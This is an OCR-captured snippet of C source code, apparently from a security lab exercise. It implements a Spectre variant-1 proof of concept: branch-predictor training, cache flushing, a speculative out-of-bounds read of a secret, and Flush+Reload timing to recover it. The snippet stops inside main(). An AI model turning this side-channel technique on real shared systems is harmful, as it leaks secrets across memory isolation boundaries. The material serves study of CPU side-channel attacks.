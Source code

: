 ```c=
char *secret = (char*)"Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x < buffer_size) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
int sec_C=0;
void reloadSideChannel()
{
  uint32_t junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
  printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %c.\n",i);
    }
  } 
}
void spectreAttack(size_t larger_x)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
   _mm_clflush(&buffer_size);
   restrictedAccess(i); 
  }
  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++) { }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(larger_x);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
```